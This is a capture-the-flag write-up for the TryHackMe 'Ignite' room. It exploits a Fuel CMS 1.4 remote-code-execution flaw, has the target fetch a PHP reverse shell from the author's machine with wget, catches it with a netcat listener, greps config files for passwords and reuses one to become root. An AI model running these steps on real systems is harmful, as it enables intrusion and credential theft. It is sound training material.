 # TryHackMe-ignite-ctf-writeup

Write up for "Ignite" simple ctf on https://www.tryhackme.com/

The goal is to retrieve two flags: User.txt and Root.txt

First of all I ran and nmap default syn scan saving the results in a text file

```
nmap -A <machine-ip> -oN nmap_syn_def
```

I found only one port opened wich is 80:

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS

Visiting the site I received a welcome page from Fuel CMS wich also reveals us his version (Version 1.4), which I immediately searched for with searchsploit:

```
searchsploit fuel cms 1.4
```

I found two scripts for RCE for 1.4.1 version, one in ruby and other one in python. I decided to go with the one in python and copied it to my current directory. I opened it with a text editor to see what parameters it asks for. It seems we just need to replace the url on line 14 with the machine IP and fire up burp to be used as proxy by the script. So I fired up burp and the shut down the interceptor. 

I ran the script and it asked for a command, tried with 'ls' and it returns a php page error with the command results on top of it. I see no flag in the current directory, but index.php is right here wich rings a bell to me. I used the script to 'touch test.php' an tried to to ask for the page from firefox; it worked so I decided to try to upload a web shell.

I used a regular php web shell (for kali installation it is located in /usr/share/webshells/php/php-reverse-shell.php by default) named shell.php. Using a text editor i've inserted my machine ip and setted the port to 4445.

Now it was time to upload the shell and see if it actually works. I set up a simple http server with python:

```
python3 -m http.server 80
```

and used RCE script to dowload the shell

```
wget <my-ip>/shell.php
```
It worked, but it downloaded the shell 12 times... honestly I couldn't figure out why was that.

I set up a listener on port 4445

```
nc -lvnp 4445
```

and went on firefox to request the shell, it worked.

I wanted to stabilize the shell so I first ran 

```
python -c 'import pty;pty.spawn("bin/bash")'
```

Then i backgrounded the shell and ran

```
stty raw -echo; fg
```

as last step i prompted

```
export TERM=xterm
```

Now it looks better.

I found the first flag in the current user home...
then I spent so many time trying to do some escalation without results, as I was sure the flag was in /root folder.

Scooping through fuel configuration files i ran

```
cat /var/www/html/fuel/application/config/* | grep password
```

and i found the password for the mysql user. 

After wasting a little time looking in to the database i tried the same password as root password for the server and ... 

www-data@ubuntu:/var/www/html/fuel/application/config$ su  

Password: 

root@ubuntu:/var/www/html/fuel/application/config# whoami

root


Cool.

As i supposed the last flag was in /root.


